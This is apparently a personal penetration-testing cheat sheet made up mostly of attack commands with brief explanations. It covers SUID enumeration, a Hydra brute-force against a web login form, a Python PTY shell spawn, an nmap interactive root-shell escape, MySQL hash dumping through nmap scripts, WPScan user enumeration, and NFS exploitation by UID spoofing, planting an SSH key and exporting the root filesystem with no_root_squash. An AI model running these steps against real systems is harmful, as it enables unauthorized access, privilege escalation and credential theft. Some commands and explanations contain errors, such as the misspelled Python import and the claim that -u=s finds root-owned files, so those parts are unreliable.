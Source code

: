 Find all files with SUID bit

    find / -perm -u=s -type f 2>/dev/null

or

    find / -perm -4000 -type f 2>/dev/null

Explanation:

    /denotes  start from the top (root) of the file system and find every directory
    -permdenotes search for the permissions that follow
    -u=sdenotes look for files that are owned by the root user
    -typestates the type of file we are looking for
    f denotes a regular file not the directories or special files
    2 denotes to the second file descriptor of the process, i.e. stderr (standard error)
    > means redirection
    /dev/null is a special filesystem object that throws away everything written into it.


Hydra Password Bruteforce

    hydra 192.168.1.69 http-form-post "/w3af/bruteforce/form_login/dataReceptor.php:user=^USER^&pass=^PASS^:Bad login" -L users.txt -P pass.txt -t 10 -w 30 -o hydra-http-post-attack.txt
    
Explanation:

    Host = 192.168.1.69
    Method = http-form-post
    URL = /w3af/bruteforce/form_login/dataReceptor.php
    Form parameters = user=^USER^&pass=^PASS^
    Failure response = Bad login
    Users file = users.txt
    Password file = pass.txt
    Threads = -t 10
    Wait for timeout = -w 30
    Output file = -o hydra-http-post-attack.txt

To remove all duplicates in a dictionary file

    cat filename.txt | sort | uniq > outfile.txt

Spawn bash

    python -c 'import.pty;pty.spawn("/bin/bash")'

nmap interactive

	nmap --interactive
	!bash -p
more nmap
	-sL : list targets to scan
	-pn : disable port scan(ping sweep?)
	
cool nmap scripts
	
	--script=http-enum
	--script=http-default-accounts
	--script=http-phpmyadmin-dir-traversal
	

passing parameters into nmap script example

	nmap -p 3306 <ip> --script mysql-dump-hashes --script-args='username=root,password=secret'
	nmap -p 3306 100.65.136.252 --script=mysql-query --script-args='query="show tables FROM corporate_database",username=root,password=abc123'
	
	**dont forget username and pass

List of nmap scripts	
https://nmap.org/nsedoc/



WPSCAN

	wpscan --url <url>
	
WPSCAN enumerate users

	-enumerate u
	-e ap **uodate this later**
	
---- NFS ports ----

If NFS ports are open

	showmount -e <ip>
	<returns shared directories> e.g /home/vulnix

Mounting the NFS directory

		cd ~
		mkdir vulnix
		mount -t nfs <ip>:/home/vulnix ~/vulnix
		
View permissions and stuff of the new directory

		ls -ld vulnix
		<this may not show the UID and GID, showing as 'nobody'>
		<e.g drwxr-x--- 2 nobody nobody 4096 Sep  2  2012 vulnix>
		and/or
		stat vulnix
		
Mount differently if cant see UID and GID

		mount -t nfs -o vers=3 <ip>:/home/vulnix ~/vulnix
		ls -ld vulnix
		<should show the real UID and GID this time>
		<e.g mount -t nfs -o vers=3 192.168.2.4:/home/vulnix ~/vulnix >
		
Create a spoof user

		groupadd --gid 2008 vulnix_group
		useradd --uid 2008 --groups vulnix_group vulnix_user
		sudo -u vulnix_user ls -a vulnix
		<if you have permissions now, it should show the file listing in the directory>
		
		
**FIND OUT HOW TO GENERATE SSH KEYS AND PUT HERE **

Copy own key into target's authorized keys

		cp ~/.ssh/id_rsa.pub vulnix/.ssh/authorized_keys

SSH into target

		ssh vulnix@<ip>
		
** extras *8

		cat /etc/exports
		/home/vulnix	*(rw,root_squash)

can add the following into /etc/exports to export the whole machine


		/		*(rw,no_root_squash)
		
find a way to restart computer or service
remount the thing
spoof root uid and gid
add new key again
ssh in as root
